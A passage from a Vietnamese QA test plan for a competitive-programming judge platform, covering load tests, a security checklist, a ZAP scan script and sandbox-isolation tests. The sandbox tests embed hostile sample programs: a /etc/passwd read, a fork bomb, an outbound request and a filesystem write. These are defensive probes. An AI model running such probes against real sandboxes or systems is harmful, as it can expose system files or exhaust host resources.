  const res = http.get(`${BASE_URL}/api/contests/active/scoreboard`);
  check(res, {
    'scoreboard: status 200': (r) => r.status === 200,
    'scoreboard: response < 300ms': (r) => r.timings.duration < 300,
  });
}
```

#### Scenario 3: Judge Performance Under Load

```javascript
// tests/performance/judge-load.k6.js
import http from 'k6/http';
import { check, sleep } from 'k6';
import { Trend } from 'k6/metrics';

const judgeLatency = new Trend('judge_total_latency');

export const options = {
  scenarios: {
    judge_load: {
      executor: 'per-vu-iterations',
      vus: 50,
      iterations: 5,       // Mỗi VU submit 5 bài = 250 submissions tổng
      maxDuration: '10m',
    },
  },
  thresholds: {
    judge_total_latency: ['p(95)<10000'],  // Judge < 10s (p95)
    http_req_failed: ['rate<0.02'],         // Error rate < 2%
  },
};

export default function () {
  // ... (setup giống Scenario 1)
  // Đo tổng thời gian từ submit → nhận verdict
  const start = Date.now();
  // ... submit & poll ...
  judgeLatency.add(Date.now() - start);
  sleep(2);
}
```

### 6.3. Chạy Performance Test

```bash
# Chạy concurrent submissions test
k6 run tests/performance/concurrent-submissions.k6.js \
  --env BASE_URL=http://staging.tinhoctre.vn

# Chạy API stress test
k6 run tests/performance/api-stress.k6.js \
  --env BASE_URL=http://staging.tinhoctre.vn \
  --out json=test-results/perf-api.json

# Chạy với báo cáo HTML (cần xk6-dashboard)
k6 run tests/performance/concurrent-submissions.k6.js \
  --out web-dashboard=period=1s
```

---

## 7. Security Test Checklist

### 7.1. Checklist bảo mật (20 items)

| # | Danh mục | Test Item | Phương pháp | Công cụ | Tự động? | Status |
|---|---|---|---|---|---|---|
| 1 | **Authentication** | Brute force login bị chặn sau 5 lần | Automated test | Vitest | ✅ | ☐ |
| 2 | **Authentication** | Password hash dùng bcrypt/argon2 (cost ≥ 10) | Code review + test | Manual | ❌ | ☐ |
| 3 | **Authentication** | JWT secret đủ mạnh (≥ 256 bit) | Config check | Script | ✅ | ☐ |
| 4 | **Authentication** | Refresh token rotation hoạt động đúng | Automated test | Vitest | ✅ | ☐ |
| 5 | **Authorization** | RBAC: Student không truy cập admin endpoints | Automated test | Vitest | ✅ | ☐ |
| 6 | **Authorization** | IDOR: User A không truy cập data User B | Automated test | Vitest | ✅ | ☐ |
| 7 | **Injection** | SQL Injection trên tất cả input fields | Automated scan | OWASP ZAP | ✅ | ☐ |
| 8 | **Injection** | NoSQL Injection (nếu dùng MongoDB) | Automated scan | Custom script | ✅ | ☐ |
| 9 | **Injection** | Command Injection qua judge input | Manual + Automated | Custom script | 🔄 | ☐ |
| 10 | **XSS** | Stored XSS trong contest title, problem description | Automated scan | OWASP ZAP | ✅ | ☐ |
| 11 | **XSS** | Reflected XSS qua URL parameters | Automated scan | OWASP ZAP | ✅ | ☐ |
| 12 | **Sandbox** | Không đọc được file hệ thống (`/etc/passwd`, `/proc`) | Automated test | Vitest | ✅ | ☐ |
| 13 | **Sandbox** | Fork bomb bị giới hạn (max 10 processes) | Automated test | Vitest | ✅ | ☐ |
| 14 | **Sandbox** | Không có network access từ sandbox | Automated test | Vitest | ✅ | ☐ |
| 15 | **Sandbox** | Filesystem write bị chặn (read-only rootfs) | Automated test | Vitest | ✅ | ☐ |
| 16 | **API** | Rate limiting hoạt động đúng (100 req/min) | Load test | k6 | ✅ | ☐ |
| 17 | **API** | CORS chỉ cho phép domains trong whitelist | Automated test | Vitest | ✅ | ☐ |
| 18 | **API** | HTTPS enforced (redirect HTTP → HTTPS) | Manual check | curl | 🔄 | ☐ |
| 19 | **Dependencies** | Không có vulnerable dependencies (Critical/High) | CI scan | npm audit, Snyk | ✅ | ☐ |
| 20 | **Data** | PII (email, password) không xuất hiện trong logs | Log review | grep + script | 🔄 | ☐ |

### 7.2. Script kiểm tra bảo mật tự động

```typescript
// tests/security/sandbox.test.ts
import { describe, it, expect } from 'vitest';
import { JudgeService } from '@/services/judge.service';

const judge = new JudgeService();

describe('Security — Sandbox Isolation', () => {
  // SEC-001: Đọc file hệ thống
  it('should prevent reading /etc/passwd', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include <stdio.h>
        int main() {
          FILE *f = fopen("/etc/passwd", "r");
          if (f) {
            char buf[1024];
            fgets(buf, 1024, f);
            printf("%s", buf);
            fclose(f);
          } else {
            printf("ACCESS DENIED");
          }
          return 0;
        }
      `,
      language: 'c',
      testCases: [{ input: '', expectedOutput: '' }],
      timeLimit: 5000,
      memoryLimit: 256,
    });

    // Phải là RTE hoặc output không chứa nội dung file
    expect(['RTE', 'WA']).toContain(result.verdict);
    expect(result.stdout).not.toContain('root:');
  });

  // SEC-002: Fork bomb
  it('should limit processes and prevent fork bomb', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include <unistd.h>
        int main() {
          while(1) fork();
          return 0;
        }
      `,
      language: 'c',
      testCases: [{ input: '', expectedOutput: '' }],
      timeLimit: 5000,
      memoryLimit: 256,
    });

    expect(['RTE', 'TLE']).toContain(result.verdict);
  }, 15000);

  // SEC-003: Network access
  it('should block outbound network connections', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        import urllib.request
        try:
          r = urllib.request.urlopen('http://example.com', timeout=2)
          print(r.read().decode())
        except Exception as e:
          print(f"BLOCKED: {e}")
      `,
      language: 'python',
      testCases: [{ input: '', expectedOutput: '' }],
      timeLimit: 5000,
      memoryLimit: 256,
    });

    // Network phải bị chặn
    expect(['RTE', 'TLE', 'WA']).toContain(result.verdict);
    if (result.stdout) {
      expect(result.stdout).toContain('BLOCKED');
    }
  });

  // SEC-004: Filesystem write
  it('should prevent writing to filesystem', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include <stdio.h>
        int main() {
          FILE *f = fopen("/tmp/hack.txt", "w");
          if (f) {
            fprintf(f, "hacked");
            fclose(f);
            printf("WRITE_SUCCESS");
          } else {
            printf("WRITE_BLOCKED");
          }
          return 0;
        }
      `,
      language: 'c',
      testCases: [{ input: '', expectedOutput: 'WRITE_BLOCKED' }],
      timeLimit: 5000,
      memoryLimit: 256,
    });

    // Write phải bị chặn hoặc file không tồn tại
    if (result.verdict === 'AC') {
      expect(result.stdout).toContain('WRITE_BLOCKED');
    } else {
      expect(['RTE', 'WA']).toContain(result.verdict);
    }
  });
});
```

### 7.3. Script scan OWASP ZAP

```bash
#!/bin/bash
# scripts/security-scan.sh
# Chạy OWASP ZAP scan tự động

set -e

TARGET_URL="${1:-http://staging.tinhoctre.vn}"
REPORT_DIR="test-results/security"

mkdir -p "$REPORT_DIR"

echo "🔒 Security Scan — TinHocTre Platform"
echo "Target: $TARGET_URL"
echo ""

# 1. npm audit
echo "▶️  [1/4] npm audit..."
npm audit --audit-level=high --json > "$REPORT_DIR/npm-audit.json" 2>&1 || true
echo "   ✅ Report: $REPORT_DIR/npm-audit.json"

# 2. OWASP ZAP Baseline Scan
echo "▶️  [2/4] OWASP ZAP Baseline Scan..."
docker run --rm -v "$(pwd)/$REPORT_DIR:/zap/wrk:rw" \
  ghcr.io/zaproxy/zaproxy:stable \
  zap-baseline.py \
  -t "$TARGET_URL" \
  -r zap-report.html \
  -J zap-report.json \
  -l WARN || true
echo "   ✅ Report: $REPORT_DIR/zap-report.html"

# 3. Check for exposed secrets
echo "▶️  [3/4] Checking for exposed secrets..."
if command -v gitleaks &> /dev/null; then
  gitleaks detect --source . --report-path "$REPORT_DIR/gitleaks.json" \
    --report-format json || true
  echo "   ✅ Report: $REPORT_DIR/gitleaks.json"
else
  echo "   ⚠️  gitleaks not installed, skipping..."
fi

# 4. Header security check
echo "▶️  [4/4] Checking security headers..."
curl -sI "$TARGET_URL" | tee "$REPORT_DIR/headers.txt"
echo ""

# Kiểm tra các header quan trọng
echo "📋 Security Headers Check:"
for header in "Strict-Transport-Security" "X-Content-Type-Options" \
  "X-Frame-Options" "Content-Security-Policy" "X-XSS-Protection"; do
  if grep -qi "$header" "$REPORT_DIR/headers.txt"; then
    echo "   ✅ $header: Present"
  else
    echo "   ❌ $header: MISSING"
  fi
done

echo ""
echo "=========================================="
echo "🔒 Security Scan Complete"
echo "📊 Reports: ./$REPORT_DIR/"
echo "=========================================="
```

---

## Phụ lục

### A. Cấu trúc thư mục Tests

```
tests/
├── setup.ts                          # Global test setup
├── helpers/                          # Test utilities
│   ├── auth.helper.ts               # Login/token helpers
│   ├── db.helper.ts                 # Database seeding
│   └── fixtures/                    # Test data fixtures
│       ├── users.json
│       ├── problems.json
│       └── contests.json
├── unit/                             # Unit tests (~400)
│   ├── services/
│   │   ├── auth.service.test.ts
│   │   ├── judge.service.test.ts
│   │   ├── contest.service.test.ts
│   │   └── ai.service.test.ts
│   ├── utils/
│   │   ├── validator.test.ts
│   │   └── sanitizer.test.ts
│   └── models/
│       ├── user.model.test.ts
│       └── submission.model.test.ts
├── integration/                      # Integration tests (~150)
│   ├── auth.test.ts
│   ├── judge.test.ts
│   ├── contest.test.ts
│   ├── submissions.test.ts
│   └── ai-feedback.test.ts
├── e2e/                              # E2E tests (~50)
│   ├── auth.spec.ts
│   ├── contest-flow.spec.ts
│   ├── submit-and-judge.spec.ts
│   ├── scoreboard.spec.ts
│   └── accessibility/
│       └── a11y.spec.ts
├── performance/                      # Performance tests
│   ├── concurrent-submissions.k6.js
│   ├── api-stress.k6.js
│   └── judge-load.k6.js
└── security/                         # Security tests
    ├── sandbox.test.ts
    ├── injection.test.ts
    └── auth-security.test.ts
```

### B. NPM Scripts

```json
{
  "scripts": {
    "test": "vitest run",
    "test:watch": "vitest",
    "test:unit": "vitest run tests/unit/",
    "test:integration": "vitest run tests/integration/",
    "test:e2e": "playwright test",
    "test:e2e:ui": "playwright test --ui",
    "test:coverage": "vitest run --coverage",
    "test:perf": "k6 run tests/performance/concurrent-submissions.k6.js",
    "test:security": "bash scripts/security-scan.sh",
    "test:regression": "bash scripts/regression-test.sh",
    "test:all": "npm run test:unit && npm run test:integration && npm run test:e2e"
  }
}
```

### C. Glossary

| Thuật ngữ | Viết tắt | Ý nghĩa |
|---|---|---|
| Accepted | AC | Bài giải đúng tất cả test cases |
| Wrong Answer | WA | Output không khớp expected output |
| Time Limit Exceeded | TLE | Chương trình chạy quá thời gian cho phép |
| Memory Limit Exceeded | MLE | Chương trình dùng quá bộ nhớ cho phép |
| Runtime Error | RTE | Lỗi khi chạy (segfault, division by zero, ...) |
| Compilation Error | CE | Lỗi biên dịch, code không compile được |
| RBAC | — | Role-Based Access Control |
| IDOR | — | Insecure Direct Object Reference |
| XSS | — | Cross-Site Scripting |
| OWASP | — | Open Web Application Security Project |
| SLA | — | Service Level Agreement |

---

> **Cập nhật lần cuối:** 13/07/2026  
> **Người review:** QA Lead  
> **Trạng thái:** ✅ Approved
